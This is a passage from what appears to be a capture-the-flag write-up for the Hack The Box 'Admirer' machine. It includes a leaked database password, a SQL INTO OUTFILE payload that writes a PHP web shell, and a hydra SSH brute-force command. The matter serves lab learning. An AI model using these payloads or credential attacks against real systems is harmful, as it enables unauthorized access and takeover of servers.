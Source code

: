 Trying the credentials `waldo/&<h5b~yK3F#{PaPB&dA}{H>` to access `admirerdb` through `adminer.php` works! Try dropping a web shell with the following SQL:

```sql
SELECT '<?php echo shell_exec($_REQUEST["c"]); ?>' INTO OUTFILE '/var/www/html/bubba.php'
```

But this results in the following error:

```
Error in query (1045): Access denied for user 'waldo'@'localhost' (using password: YES) 
```

Try adding this new password to the list of credentials and try a bruteforce:

```bash
echo '&<h5b~yK3F#{PaPB&dA}{H>' >> pass.txt
# try to login 
hydra -V -f -L users.txt -P pass.txt ssh://10.10.10.187
```

And this results in a win!

![hydra2](./admirer/hydra2.png)

Gaining access shows some interesting results for `user.txt`:

```bash
find / -iname user.txt -type f -exec ls -lad {} \; 2>/dev/null
```
